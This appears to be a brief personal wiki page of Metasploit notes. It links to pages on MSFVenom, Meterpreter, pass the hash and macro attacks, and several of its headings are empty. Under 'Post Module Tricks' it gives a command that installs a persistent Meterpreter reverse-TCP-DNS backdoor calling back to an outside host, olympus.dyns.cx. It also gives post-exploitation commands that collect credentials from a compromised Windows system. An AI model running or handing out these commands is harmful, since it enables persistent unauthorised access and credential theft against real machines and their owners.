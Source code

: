 <!-- TITLE: Metasploit Main -->
<!-- SUBTITLE: A quick summary of Metasploit Main -->


[Back to Tools](/tools)

[Metasploit Site](https://www.metasploit.com/)

[MSFVenom](/msfvenom)

[Meterpreter](/meterpreter)


# Known Attack Patterns
[Pass the Hash](/passthehash)
[Browser Attacks](/browserattacks)
[Office Macro Attacks](/officemacros)
# Writing Exploits
# Post Module Tricks
run persistence -P windows/meterpreter/reverse_tcp_dns -S -i 9000 -p 9998 -r olympus.dyns.cx
-i - I think is interval

Post Exploit
run prefetchtool -l

run post/windows/gather/credential_collector

# MSFDB Commands
# MSF RPC Connections